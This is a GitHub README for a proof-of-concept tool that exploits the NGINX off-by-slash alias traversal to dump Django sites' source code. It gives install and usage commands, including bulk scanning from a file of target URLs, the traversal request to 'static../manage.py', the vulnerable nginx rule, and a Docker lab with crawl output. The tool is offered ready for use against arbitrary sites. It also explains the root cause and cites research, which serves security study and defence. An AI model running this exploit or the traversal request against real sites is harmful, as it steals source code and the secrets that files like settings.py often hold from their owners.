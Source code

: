 # PoC: Off-by-slash Django Site Dumper

> A proof of concept to dump Django website's source code affected by NGINX's off-by-slash alias directive misconfiguration.

<p align="center"><img src="/demo.gif?raw=true"/></p>


## Installation

```bash
$ git clone https://github.com/adamyordan/offbyslash-django-dumper

$ cd offbyslash-django-dumper

$ pip install -r requirements.txt
```


## Usage
Pass target url as argument
```bash
$ python exploit.py --url http://django-site.com/
```

Or using files containing multiple target urls
```bash
$ cat targets.txt
http://django-site.com/
https://other-affected-site.org/
http://cool-website.me/

$ python exploit.py --file targets.txt
```

The result is available at `dump` directory
```
$ tree dump

dump/
└── http-django-site.com-
    ├── api
    │   ├── urls.py
    │   ├── users.py
    │   └── views.py
    ├── common
    │   └── logger.py
    ├── manage.py
    └── app
        ├── __init__.py
        ├── settings.py
        ├── urls.py
        ├── validate.py
        └── wsgi.py
```

## Explanation

This dumper works by using a path traversal vulnerability caused by a misconfiguration when using NGINX to serve 
static files. Equivalent curl command used by this dumper to dump local files is:
```bash
$ curl http://django-site.com/static../manage.py
```

Affected sites will return a response with status `200 OK` and body containing the source code of `manage.py` file.


This vulnerability is caused by a slight but fatal mistake in Nginx's configuration (_Nginx off-by-slash fail_ / _alias traversal_)
that allow path traversal via misconfigured alias.
For example, here is a snippet of affected nginx rule:
```
location /static {
    alias /home/app/static/;
}
```

By sending a request to `http://django-site.com/static../manage.py`, Nginx matches the rule and appends the remainder 
to destination `/home/app/static/../manage.py`. Therefore serving the `manage.py` as static file.


This dumper utilize this vulnerability to automatically crawl the source code of Django sites, inferring available
source code files by using static analysis (read: pattern matching!), and (recursively?) expand source codes.


## Example Vulnerable Site

An example website is provided in this repository at directory `vulnerable-site` in Dockerfile format.

```bash
$ cd vulnerable-site
$ docker build -t tmp/vulnsite . && docker run --rm -it -p 8000:80 -d tmp/vulnsite


$ cd ..
$ python exploit.py --url http://localhost:8000/

[+] START CRAWLING: http://localhost:8000/
[+] downloading: dump/http-localhost-8000-/manage.py
[+] downloading: dump/http-localhost-8000-/app/settings.py
[+] downloading: dump/http-localhost-8000-/app/wsgi.py
[+] downloading: dump/http-localhost-8000-/app/urls.py
[+] FINISHED: http://localhost:8000/


$ tree dump/
dump/
└── http-localhost-8000-
    ├── app
    │   ├── settings.py
    │   ├── urls.py
    │   └── wsgi.py
    └── manage.py
```


## Reference
- [Blackhat USA 2018 presentation slide - by Orange Tsai](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)
- [Nginx alias documentation](http://nginx.org/en/docs/http/ngx_http_core_module.html#alias)
- [Gixy's documentation of path traversal via misconfigured alias](https://github.com/yandex/gixy/blob/master/docs/en/plugins/aliastraversal.md)
